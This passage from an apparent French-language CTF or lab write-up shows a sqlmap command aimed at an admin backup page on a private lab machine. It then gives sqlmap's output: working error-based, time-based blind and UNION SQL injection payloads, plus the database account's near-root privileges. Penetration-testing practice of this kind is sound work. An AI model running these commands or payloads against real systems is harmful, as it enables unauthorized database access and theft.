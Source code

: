Mais le mieux est encore d'avoir recours à `sqlmap` :

```bash
python sqlmap.py -u "http://192.168.56.223/admin/backup/?id=1" --risk 3 --level 5 --dbms mysql
```

Il trouve rapidement la vulnérabilité :

```
sqlmap identified the following injection point(s) with a total of 1822 HTTP(s) requests:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 9820 FROM(SELECT COUNT(*),CONCAT(0x716a766a71,(SELECT (ELT(9820=9820,1))),0x71716a6b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9136 FROM (SELECT(SLEEP(5)))MuvG)

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: id=1 UNION ALL SELECT CONCAT(0x716a766a71,0x55664c4851756371795653684d6f6b574c4d4f567671557a4875424667644d5a6d7a4b44446a4c4d,0x71716a6b71)-- -
---
[09:10:34] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```

Avec l'option `--privileges` je vois que j'ai des droits similaires au compte `root` :

```
[*] 'admin'@'localhost' (administrator) [29]:
    privilege: ALTER
    privilege: ALTER ROUTINE
    privilege: CREATE
    privilege: CREATE ROUTINE
    privilege: CREATE TABLESPACE
    privilege: CREATE TEMPORARY TABLES
    privilege: CREATE USER
    privilege: CREATE VIEW
    privilege: DELETE
    privilege: DELETE HISTORY
    privilege: DROP
    privilege: EVENT
    privilege: EXECUTE
    privilege: FILE
    privilege: INDEX
    privilege: INSERT
    privilege: LOCK TABLES
    privilege: PROCESS
    privilege: REFERENCES
    privilege: RELOAD
    privilege: REPLICATION CLIENT
    privilege: REPLICATION SLAVE
    privilege: SELECT
    privilege: SHOW DATABASES
    privilege: SHOW VIEW
    privilege: SHUTDOWN
    privilege: SUPER
    privilege: TRIGGER
    privilege: UPDATE
```
